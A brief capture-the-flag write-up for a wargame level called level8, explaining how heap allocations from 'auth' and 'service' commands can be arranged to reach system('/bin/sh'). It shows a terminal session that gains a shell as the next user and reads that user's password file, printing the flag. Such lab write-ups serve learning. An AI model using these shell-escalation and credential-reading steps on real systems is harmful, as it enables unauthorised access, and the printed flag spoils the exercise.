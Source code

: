 If we decompile level8 with `objdump -d level8`, we see if we use a `auth` or `service` it will increment our pointer by 10.

This program is a little bit complex but we can resume it to 2 simple conditions:
- Service need to be (Auth + 0x20) address
- The 32th byte of the auth array need to be different from 0 to access `system('/bin/sh').

If memory is different from zero when we use our command `login` :

```bash
$ ./level8
(null), (null)
auth
0x804a008, (null)
service
0x804a008, 0x804a018
login
Password:
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ whoami
level9
$ cd .. && cat level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
